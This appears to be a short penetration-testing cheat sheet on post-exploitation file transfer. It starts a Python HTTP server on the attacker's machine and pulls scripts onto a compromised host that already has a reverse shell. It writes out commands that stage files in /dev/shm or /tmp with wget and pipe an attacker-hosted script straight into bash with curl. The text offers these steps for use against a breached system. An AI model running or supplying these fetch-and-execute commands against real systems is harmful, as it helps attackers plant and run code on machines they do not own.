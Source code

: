 ## PYTHON server 

**on my terminal**
  (open the server in the dir you have the scripts so that it will wget all the files of the dir on the mac)

```bash
  python -m SimpleHTTPServer (portnumber)
```
```bash 
python3 -m http.server (portnumber)

```

**on the mac so obtained/revershell**

dir > /dev/shm (wget any script in this dir)

```bash
 wget -r <my ip>  #(do ifconfig to know the ip)
```
  or

```bash
 curl <my ip:port>/script | /bin/bash
```

Note: you can also wget or curl in /tmp directory 

<!-- If you see an error 'No module named SimpleHTTPServer' it's because Python SimpleHTTPServer has been migrated to python http.server module in python 3 -->
